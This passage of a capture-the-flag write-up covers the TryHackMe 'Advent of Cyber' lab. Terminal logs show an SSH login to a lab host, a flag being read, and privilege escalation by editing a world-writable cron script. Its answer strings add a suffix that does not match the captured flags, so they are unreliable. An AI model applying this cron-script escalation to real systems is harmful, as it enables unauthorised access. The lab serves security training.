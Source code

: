 ```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ ssh sam@10.10.163.132 -p 4567
The authenticity of host '[10.10.163.132]:4567 ([10.10.163.132]:4567)' can't be established.
ECDSA key fingerprint is SHA256:/54HkiaVZN46gtAAt5bxFK6rEKyPHEGbkJ1sddd3lpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.163.132]:4567' (ECDSA) to the list of known hosts.
sam@10.10.163.132's password:
       .---.
      /     \
      \.@-@./
      /`\_/`\
     //  _  \\
    | \     )|_
   /`\_`>  <_/ \
   \__/'---'\__/
     tryhackme
Last login: Thu Dec 19 20:21:55 2019 from 89.241.198.95
sam@ip-10-10-163-132:~$ ls
flag1.txt
sam@ip-10-10-163-132:~$ cat flag1.txt
THM{V0N318*****dec4389bc09669650f3479334532aeab}
sam@ip-10-10-163-132:~$
```

`THM{V0N318*****dec4389bc09669650f3479334532aeab12**123:))}`

3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

```
sam@ip-10-10-163-132:~$ ls -l /home
total 12
drwxr-xr-x 3 sam    sam    4096 Dec 19  2019 sam
drwxrwxrwx 2 root   root   4096 Dec 19  2019 scripts
drwxr-xr-x 6 ubuntu ubuntu 4096 Dec 19  2019 ubuntu
sam@ip-10-10-163-132:~$ ls -l /home/scripts/
total 8
-rwxrwxrwx 1 ubuntu ubuntu 14 Dec 19  2019 clean_up.sh
-rw-r--r-- 1 root   root    5 Dec 19  2019 test.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ nano /home/scripts/clean_up.sh
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-----r-- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ cat /home/ubuntu/flag2.txt
THM{V0N318*****b27d33705f97ba2e1f444ec2da5f5f61}
sam@ip-10-10-163-132:~$
```

`THM{V0N318*****b27d33705f97ba2e1f444ec2da5f5f6112**123:))}`
